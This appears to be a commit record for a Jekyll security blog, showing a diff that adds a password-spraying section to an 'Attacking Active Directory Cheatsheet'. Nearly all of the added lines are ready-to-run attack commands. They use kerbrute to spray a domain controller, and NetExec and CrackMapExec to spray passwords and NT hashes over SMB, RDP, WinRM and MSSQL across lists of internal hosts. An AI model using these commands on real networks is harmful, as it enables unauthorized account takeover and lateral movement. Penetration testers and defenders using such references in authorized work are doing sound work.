

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 5378 px. Shown: the whole window at 91% size, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -179,7 +179,40 @@
 ```
 ### Password Spraying
 ```shell
+# kerbrute.py
+git clone https://github.com/TarlogicSecurity/kerbrute.git
+cd kerbrute
+python3 kerbrute.py -users usernames.txt -passwords passwords.txt -dc-ip 172.16.150.10 -domain vorkharium.com
 
+# NetExec
+# Password Spraying
+nxc smb 172.16.150.10 -u john -p passwords.txt
+nxc smb 172.16.150.10 -u usernames.txt -p 'Password123!'
+nxc smb internal_ips.txt -u usernames.txt -p passwords.txt --continue-on-success
+
+# Hash Spraying
+nxc smb 172.16.150.10 -u john -H NT_hashes.txt
+nxc smb 172.16.150.10 -u usernames.txt -H 'NT_HASH'
+nxc smb internal_ips.txt -u usernames.txt -H NT_hashes.txt --continue-on-success
+
+# Local Authentication
+nxc smb 172.16.150.10 -u john -p 'Password123!' --local-auth
+nxc smb 172.16.150.10 -u domain_users.txt -p passwords_found.txt --local-auth
+
+# RDP
+nxc rdp ips_internal.txt -u john -p 'Password123!' --continue-on-success
+nxc rdp ips_internal.txt -u john -p 'Password123!' --continue-on-success --local-auth
+
+# WinRM
+nxc winrm ips_internal.txt -u john -p 'Password123!' --continue-on-success
+nxc winrm ips_internal.txt -u john -p 'Password123!' --continue-on-success --local-auth
+
+# MSSQL
+nxc mssql ips_internal.txt -u john -p 'Password123!' --continue-on-success
+nxc mssql ips_internal.txt -u john -p 'Password123!' --continue-on-success --local-auth
+
+# We can also use CrackMapExec running almost the same commands replacing "nxc" for "crackmapexec". For example:
+crackmapexec smb 172.16.150.10 -u john -p passwords.txt
 ```
 ### Local PowerShell Enumeration
 ```shell
````
